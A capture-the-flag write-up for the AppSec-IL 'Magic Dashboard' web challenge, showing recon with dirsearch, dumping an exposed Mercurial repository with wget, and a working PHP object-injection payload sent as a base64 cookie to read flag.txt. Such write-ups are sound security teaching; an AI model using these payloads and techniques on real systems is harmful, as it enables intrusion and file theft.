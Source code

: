 
# Magic Dashboard 

 * Category: Web
 * Solved by the JCTF Team

## Description

> Greetings, brave adventurer! You have discovered the legendary Magic Dashboard, a mystical portal crafted by ancient web wizards. This enchanted interface holds secrets beyond imagination, with spells woven into its very code.
> Many have gazed upon its beautiful design, but few have unlocked its true magical powers. Do you possess the skills to unveil the dashboard's deepest mysteries and claim its hidden treasures?

## Solution

We register to the attached website, and are redirected to a "Magic Dashboard" which more
or less only allows users to switch between *Light Mode* and *Dark Mode*.

The preference is saved in a base64-encoded cookie:

```console
┌──(user@kali3)-[/media/sf_CTFs/appsec/Magic_Dashboard]
└─$ curl -X POST 'https://magic-dashboard.appsecil.ctf.today/index.php' \
  -H 'Cookie: PHPSESSID=a5d7484a4aa1c89b7b4c1ac8e32146d5;' -H 'Content-Type: application/x-www-form-urlencoded' -s -v --data-raw "toggle_theme=on" 2>&1 | grep -i cookie
* [HTTP/2] [1] [cookie: PHPSESSID=a5d7484a4aa1c89b7b4c1ac8e32146d5;]
> Cookie: PHPSESSID=a5d7484a4aa1c89b7b4c1ac8e32146d5;
< set-cookie: preferences=YToxOntzOjU6InRoZW1lIjtzOjQ6ImRhcmsiO30%3D; expires=Wed, 04-Jun-2025 20:08:22 GMT; Max-Age=3600

┌──(user@kali3)-[/media/sf_CTFs/appsec/Magic_Dashboard]
└─$ echo YToxOntzOjU6InRoZW1lIjtzOjQ6ImRhcmsiO30= | base64 -d
a:1:{s:5:"theme";s:4:"dark";}
```

The decoded value looks like a serialized PHP object. In this case, an array such as:

```console
┌──(user@kali3)-[/media/sf_CTFs/appsec/Magic_Dashboard]
└─$ php -r 'echo serialize(["theme" => "dark"]);'
a:1:{s:5:"theme";s:4:"dark";}
```

We can confirm this by corrupting the contents of the cookie, which displays an error similar
to "Notice: unserialize(): Error at offset 0 of 29 bytes in /var/www/html/index.php on line 30".

This must be a [PHP Object Injection](https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection) 
vulnerability: We can edit the serialized representation so that when the program calls 
`unserialize`, it will actually perform the unserialize into an object of our choice, possibly
executing some logic with variables under our control. But which object should we use? We
need some access to the source code.

Sometimes challenges such as these contain a pointer to the source code within the HTML
sources of the website, but in this case the only useful comment is:

```
<!-- NOTE: Development team - we need to remove the debug parameter (debug=1) in the deployment pipeline. Security flagged this as an issue. -->
```

When we access `https://magic-dashboard.appsecil.ctf.today/index.php?debug=1`, the following 
debug data is added to the website output, however not useful at this stage:

```
Debug: Profile data file points to /var/www/html/profile.dat 
```

So where do we find the sources? Let's use `dirsearch` to search for common locations:

```console
┌──(user@kali3)-[/media/sf_CTFs/appsec/Magic_Dashboard]
└─$ dirsearch -u https://magic-dashboard.appsecil.ctf.today/ -e *

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: artifacts | HTTP method: GET | Threads: 25 | Wordlist size: 9481

Output File: /media/sf_CTFs/appsec/Magic_Dashboard/reports/https_magic-dashboard.appsecil.ctf.today/__25-06-02_23-45-53.txt

Target: https://magic-dashboard.appsecil.ctf.today/

[23:45:53] Starting:
[23:45:56] 301 -  354B  - /.hg  ->  http://magic-dashboard.appsecil.ctf.today/.hg/
[23:45:56] 200 -    8B  - /.hg/branch
[23:45:56] 200 -  644B  - /.hg/
[23:45:56] 200 -  485B  - /.hg/store/data/
[23:45:56] 200 -   72B  - /.hg/dirstate
[23:45:56] 200 -   72B  - /.hg/store/undo
[23:45:56] 200 -   11B  - /.hg/requires
[23:45:56] 403 -  299B  - /.ht_wsr.txt
[23:46:05] 403 -  299B  - /.htaccess.bak1
[23:46:05] 403 -  299B  - /.htaccess.sample
[23:46:05] 403 -  299B  - /.htaccess.save
[23:46:05] 403 -  299B  - /.htaccess_orig
[23:46:05] 403 -  299B  - /.htaccess.orig
[23:46:05] 403 -  299B  - /.htaccess_extra
[23:46:05] 403 -  299B  - /.htaccessBAK
[23:46:05] 403 -  299B  - /.htaccess_sc
[23:46:05] 403 -  299B  - /.htaccessOLD
[23:46:05] 403 -  299B  - /.htaccessOLD2
[23:46:05] 403 -  299B  - /.htm
[23:46:05] 403 -  299B  - /.html
[23:46:05] 403 -  299B  - /.htpasswd_test
[23:46:05] 403 -  299B  - /.httr-oauth
[23:46:05] 403 -  299B  - /.htpasswds
[23:46:23] 200 -    0B  - /config.php
[23:46:28] 403 -  299B  - /flag.txt
[23:46:35] 200 -    1KB - /login.php
[23:46:45] 200 -    2KB - /register.php
[23:46:47] 403 -  299B  - /server-status/
[23:46:47] 403 -  299B  - /server-status

Task Completed
```

We found a `.hg` folder - this might contain a Mercurial repository!

```console
┌──(user@kali3)-[/media/sf_CTFs/appsec/Magic_Dashboard]
└─$ mkdir -p sources/.hg && cd sources/.hg

┌──(user@kali3)-[/media/…/appsec/Magic_Dashboard/sources/.hg]
└─$ wget --mirror --no-parent --no-host-directories --cut-dirs=1 -e robots=off https://magic-dashboard.appsecil.ctf.today/.hg/ > /dev/null 2>&1

┌──(user@kali3)-[/media/…/appsec/Magic_Dashboard/sources/.hg]
└─$ tree
.
├── 00changelog.i
├── branch
├── cache
│   ├── branch2-served
│   ├── index.html
│   ├── rbc-names-v2
│   └── rbc-revs-v2
├── dirstate
├── index.html
├── last-message.txt
├── requires
├── store
│   ├── 00changelog.d
│   ├── 00changelog.i
│   ├── 00manifest.i
│   ├── data
│   │   ├── _user_profile.php.i
│   │   └── index.html
│   ├── fncache
│   ├── index.html
│   ├── phaseroots
│   ├── requires
│   ├── undo
│   └── undo.backupfiles
├── undo.backup.branch.bck
├── undo.backup.dirstate.bck
├── undo.desc
└── wcache
    ├── checkisexec
    ├── checklink
    ├── checklink-target
    ├── checknoexec
    ├── index.html
    └── manifestfulltextcache

5 directories, 30 files
```

Now we can run `hg` commands:

```console
┌──(user@kali3)-[/media/…/appsec/Magic_Dashboard/sources/.hg]
└─$ cd ..

┌──(user@kali3)-[/media/sf_CTFs/appsec/Magic_Dashboard/sources]
└─$ hg log
changeset:   0:00c105543b6c
tag:         tip
user:        admin
date:        Wed May 28 14:59:15 2025 +0300
summary:     Add UserProfile


┌──(user@kali3)-[/media/sf_CTFs/appsec/Magic_Dashboard/sources]
└─$ hg manifest
UserProfile.php

┌──(user@kali3)-[/media/sf_CTFs/appsec/Magic_Dashboard/sources]
└─$ hg cat UserProfile.php
<?php
class UserProfile {
    public $username;
    public $dataFile = '/var/www/html/profile.dat';

    public function __construct($username) {
        $this->username = $username;
    }

    public function loadPreferences() {
        if (file_exists($this->dataFile)) {
            $data = file_get_contents($this->dataFile);
            return unserialize($data);
        }
        return ['theme' => 'light'];
    }

    public function __destruct() {
        if (isset($this->dataFile) && file_exists('/var/www/html/flag.txt')) {
            $this->dataFile = '/var/www/html/flag.txt';
        }
    }
}
```

So, obviously we want to target `UserProfile`, we craft the cookie content so that
it will undeserialize into `UserProfile`, changing the `dataFile` content to 
`"/var/www/html/flag.txt"`.

```
O:11:"UserProfile":2:{s:8:"username";s:4:"test";s:8:"dataFile";s:22:"/var/www/html/flag.txt";}
```

Let's base64-encode it and send it to the server:

```console
┌──(user@kali3)-[/media/sf_CTFs/appsec/Magic_Dashboard/sources]
└─$ echo -n 'O:11:"UserProfile":2:{s:8:"username";s:4:"test";s:8:"dataFile";s:22:"/var/www/html/flag.txt";}' | base64 -w 0
TzoxMToiVXNlclByb2ZpbGUiOjI6e3M6ODoidXNlcm5hbWUiO3M6NDoidGVzdCI7czo4OiJkYXRhRmlsZSI7czoyMjoiL3Zhci93d3cvaHRtbC9mbGFnLnR4dCI7fQ==  

┌──(user@kali3)-[/media/sf_CTFs/appsec/Magic_Dashboard/sources]
└─$ curl 'https://magic-dashboard.appsecil.ctf.today/index.php?debug=1' \
  -H 'Cookie: PHPSESSID=a5d7484a4aa1c89b7b4c1ac8e32146d5; preferences=TzoxMToiVXNlclByb2ZpbGUiOjI6e3M6ODoidXNlcm5hbWUiO3M6NDoidGVzdCI7czo4OiJkYXRhRmlsZSI7czoyMjoiL3Zhci93d3cvaHRtbC9mbGFnLnR4dCI7fQ==' -s | grep AppSec
Preferences file contents: AppSec-IL{D3struc7_w1th_M4g1c_2025}
```

The flag: `AppSec-IL{D3struc7_w1th_M4g1c_2025}`